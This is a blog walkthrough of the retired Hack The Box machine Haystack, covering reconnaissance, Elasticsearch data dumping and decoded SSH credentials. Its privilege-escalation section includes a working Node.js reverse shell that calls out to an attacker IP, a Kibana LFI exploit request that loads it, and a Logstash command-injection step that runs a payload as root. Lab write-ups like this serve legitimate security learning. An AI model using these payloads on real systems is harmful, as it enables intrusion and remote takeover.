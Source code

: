```yaml
---
layout: post
title: "Haystack: Hack The Box Walkthrough"
date: 2019-11-02 15:56:05 +0000
last_modified_at: 2019-11-02 15:56:05 +0000
category: Walkthrough
tags: ["Hack The Box", Haystack, retired]
comments: true
image:
  feature: haystack-htb-walkthrough.jpg
  credit: pixel2013 / Pixabay
  creditlink: https://pixabay.com/photos/needle-in-a-haystack-needle-haystack-1752846/
---
```


This post documents the complete walkthrough of Haystack, a retired vulnerable [VM][1] created by [JoyDragon][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Haystack is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.115 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-07-01 01:21:56 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.115                                    
Discovered open port 22/tcp on 10.10.10.115                                    
Discovered open port 9200/tcp on 10.10.10.115
```

Nothing unusual with the ports. Let\'s do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80,9200 -A --reason -oN nmap.txt 10.10.10.115
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    syn-ack ttl 63 nginx 1.12.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    syn-ack ttl 63 nginx 1.12.2
|_http-favicon: Unknown favicon MD5: 6177BFB75B498E0BB356223ED76FFE43
| http-methods:
|   Supported Methods: HEAD DELETE GET OPTIONS
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

Interesting. `80/tcp` and `9200/tcp` appear to be Nginx `http` services. This is what they look like in a browser.

_`80/tcp`_

<a class="image-popup">
![5a95d4ce.png](/assets/images/posts/haystack-htb-walkthrough/5a95d4ce.png)
</a>

Needle in a haystack indeed :laughing:

_`9200/tcp`_

<a class="image-popup">
![b5a9da1e.png](/assets/images/posts/haystack-htb-walkthrough/b5a9da1e.png)
</a>

Now, this is interesting. Elasticsearch is in the house.

### How to use Elasticsearch

Let\'s see how we can find the needle in the haystack.

#### Listing all the indices in the node

<a class="image-popup">
![f6e78db9.png](/assets/images/posts/haystack-htb-walkthrough/f6e78db9.png)
</a>

Notice the size of the indices? Keep that in mind because we are going to use it later.

#### Listing all the documents in an index

<a class="image-popup">
![5598a9a6.png](/assets/images/posts/haystack-htb-walkthrough/5598a9a6.png)
</a>

By default, Elasticsearch displays ten results. In order to include all the results, we need the `size` parameter. Let\'s switch to `curl` and download the two indices.

```
# curl -s "http://10.10.10.115:9200/bank/_search?q=*:*&size=1000" > bank
# curl -s "http://10.10.10.115:9200/quotes/_search?q=*:*&size=1000" > quotes
```

### Analysis of `needle.jpg`

OK, what's next? In order to search for the needle in the haystack, we need to know what are we looking for in the first place. To do that, we turn our attention to `needle.jpg`.

Check out the `strings` in the file.

<a class="image-popup">
![de11d407.png](/assets/images/posts/haystack-htb-walkthrough/698df47d.png)
</a>

This string is `base64`-decoded to ***la aguja en el pajar es "clave"***. Damn, what does it even mean? Google Translate to the rescue.

<a class="image-popup">
![71114c93.png](/assets/images/posts/haystack-htb-walkthrough/71114c93.png)
</a>

Duh? :fu:

Anyways, that line is cliché and it looks like it's straight out of a book of quotations. :wink: With that in mind, let\'s see what we can find in the `quotes` index.

<a class="image-popup">
![b916c77e.png](/assets/images/posts/haystack-htb-walkthrough/b916c77e.png)
</a>

There's more.

<a class="image-popup">
![1302bba6.png](/assets/images/posts/haystack-htb-walkthrough/1302bba6.png)
</a>

They are decoded to the following:

```
pass: spanish.is.key
user: security
```

This must the key to SSH login. What do you know, the file `user.txt` is at the home directory.

<a class="image-popup">
![c70e59ba.png](/assets/images/posts/haystack-htb-walkthrough/c70e59ba.png)
</a>

## Privilege Escalation

During enumeration of `security`'s account, I noticed Kibana 6.4.2 is installed. This version coincides with the version first seen at the `9200/tcp` page.

<a class="image-popup">
![7bc39698.png](/assets/images/posts/haystack-htb-walkthrough/7bc39698.png)
</a>

This version is susceptible to a Local File Inclusion (LFI) that can be exploited to gain remote access, according to this [discovery](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/).

It's not hard to exploit. First, create a reverse shell written in Node.js.

<div class="filename"><span>lame.js</span></div>

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.15.147", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

`scp` the file to a `tmpfs` mount, e.g. `/dev/shm`.

Launch the exploit with `curl` in the remote machine like so.

```
$ curl -s "http://127.0.0.1:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../dev/shm/lame.js"
```

You should get a reverse shell as `kibana`.

<a class="image-popup">
![326409da.png](/assets/images/posts/haystack-htb-walkthrough/326409da.png)
</a>

You must be thinking, "what good is a shell as `kibana`?". Well, check out the permissions that `kibana` has.

<a class="image-popup">
![e26584b7.png](/assets/images/posts/haystack-htb-walkthrough/e26584b7.png)
</a>

And, check out the contents of `/etc/logstash/conf.d`.

<a class="image-popup">
![b4d8661e.png](/assets/images/posts/haystack-htb-walkthrough/b4d8661e.png)
</a>

First of all, the machine is running an Elasticsearch, Logstash, and Kibana (ELK) stack. Secondly, the input, filter and output plugins are geared towards execution.

### Getting `root.txt`

In addition, Logstash is running as `root`. The creator is so kind! :roll_eyes:

<a class="image-popup">
![cd961a11.png](/assets/images/posts/haystack-htb-walkthrough/cd961a11.png)
</a>

Armed with that insight, here's how we are going to get our `root` shell.

1. Use `msfvenom` to create a reverse shell, name it `lame`
2. `scp` to `/dev/shm/lame`
2. `echo "Ejecutar comando: /dev/shm/lame" > /opt/kibana/logstash_lame`
2. Wait and profit...

<a class="image-popup">
![8e17b5f3.png](/assets/images/posts/haystack-htb-walkthrough/8e17b5f3.png)
</a>

There you have it. Getting `root.txt` is trivial with a `root` shell.

<a class="image-popup">
![e0a66a2b.png](/assets/images/posts/haystack-htb-walkthrough/e0a66a2b.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/195
[2]: https://www.hackthebox.eu/home/users/profile/32897
[3]: https://www.hackthebox.eu/
